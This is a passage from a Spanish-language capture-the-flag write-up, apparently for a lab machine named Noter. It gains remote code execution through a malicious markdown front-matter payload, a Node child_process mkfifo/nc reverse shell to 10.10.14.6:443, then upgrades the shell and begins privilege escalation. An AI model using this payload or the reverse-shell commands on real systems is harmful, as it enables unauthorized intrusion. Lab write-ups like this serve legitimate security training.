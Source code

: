 Para obtener RCE con éxito, necesitamos que la función "Exportar directamente desde la nube" apunte a un archivo de markdown que controlamos. Esto es fácil de lograr ejecutando un servidor web simple en el puerto 80 y apuntando la función "Exportar directamente desde la nube" a nuestra máquina local.

Creé el siguiente payload en un archivo llamado `payload.md`:

```markdown
---js
((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f"))
---RCE
```

Iniciaré un servidor web Python y un listener de netcat y enviar `http://10.10.14.6/payload.md` a Noter. Hay una conexión en el servidor web y luego una conexión en nc:

```bash
nc -lnvp 443
```

Configuramos la shell:

```bash
script /dev/null -c bash
# Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Y podemos buscar la flag de usuario.

## Escalada de Privilegios

No hay mucho de interés en el directorio de inicio del usuario. La aplicación web parece estar ejecutándose desde `/app`, pero ya tuve acceso a ese código fuente. La fuente en vivo muestra las nuevas credenciales de MySQL:

```python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```

`/opt` tiene un solo archivo, `backup.sh`:

```bash
svc@noter:/opt$ ls
backup.sh
```

Esto parece ser lo que creó las copias de seguridad que encontré a través de FTP, pero claramente no se ejecuta con frecuencia.
